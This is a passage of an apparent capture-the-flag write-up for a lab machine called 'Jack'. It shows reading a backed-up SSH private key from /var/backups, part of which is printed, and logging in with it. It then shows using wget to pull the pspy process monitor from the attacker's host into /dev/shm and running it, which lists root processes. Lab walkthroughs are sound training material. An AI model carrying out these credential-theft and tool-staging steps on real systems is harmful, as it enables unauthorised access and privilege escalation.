 ```bash
www-data@jack:/home/jack$ cat /var/backups/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEowIBAAKCAQEAxfBR9F9V5G2snv1Xaaxv3VHbFZ2VZRwGyU+ah6komBeaAldr
8SNK1x0wu/eXjLjrWnVaYOEU2YUrHzn/duB3Wvm8xyA0T8x/WbV2osWaVOafkPSv
YpV4OdQrdRoS3PEOXRnS+CnOTAgPWo2+xfH1XeldFw9XiYrprTugmwCcYDuBZB3r
...
```

```bash
:~/Jack# nano id_rsa
:~/Jack# chmod 600 id_rsa
```

<br>

<h3>ssh</h3>

```bash
:~/Jack# ssh -i id_rsa jack@jack.thm
...
jack@jack:~$ id
uid=1000(jack) gid=1000(jack) groups=1000(jack),4(adm),24(cdrom),30(dip),46(plugdev),115(lpadmin),116(sambashare),1001(family)
jack@jack:~$ pwd
/home/jack
jack@jack:~$ 
```

<br>

<h3>pspy</h3>

```bash
:~/Jack# python3 -m http.server
```

```bash
jack@jack:/dev/shm$ wget http://10.10.17.229:8000/pspy64
...
pspy64                                   100%[=================================================================================>]   2.94M  --.-KB/s    in 0.02s   
```

![image](https://github.com/user-attachments/assets/a9893b1c-8da7-4a56-8b27-0a3996e53441)


```bash
jack@jack:/dev/shm$ chmod +x pspy64; ./pspy64
pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
...
2025/06/30 21:29:05 CMD: UID=0    PID=972    | /usr/lib/snapd/snapd 
2025/06/30 21:29:05 CMD: UID=0    PID=966    | /usr/sbin/atd -f 
2025/06/30 21:29:05 CMD: UID=108  PID=959    | /usr/sbin/rsyslogd -n 
2025/06/30 21:29:05 CMD: UID=111  PID=943    | /usr/bin/dbus-daemon --system --address=systemd: --nofork --nopidfile --systemd-activation 
2025/06/30 21:29:05 CMD: UID=0    PID=926    | /usr/bin/lxcfs /var/lib/lxcfs/ 
2025/06/30 21:29:05 CMD: UID=0    PID=918    | /lib/systemd/systemd-logind 
2025/06/30 21:29:05 CMD: UID=0    PID=914    | /usr/sbin/cron -f 
2025/06/30 21:29:05 CMD: UID=0    PID=906    | /usr/sbin/acpid 
2025/06/30 21:29:05 CMD: UID=0    PID=904    | /usr/lib/accountsservice/accounts-daemon 
...
2025/06/30 21:29:05 CMD: UID=0    PID=887    | /sbin/iscsid 
...
2025/06/30 21:29:05 CMD: UID=0    PID=737    | /sbin/dhclient -1 -v -pf /run/dhclient.eth0.pid -lf /var/lib/dhcp/dhclient.eth0.leases -I -df /var/lib/dhcp/dhclient6.eth0.leases eth0 
...
2025/06/30 21:29:05 CMD: UID=33   PID=5296   | /usr/sbin/apache2 -k start 
...
2025/06/30 21:29:05 CMD: UID=33   PID=4838   | /usr/sbin/apache2 -k start 
```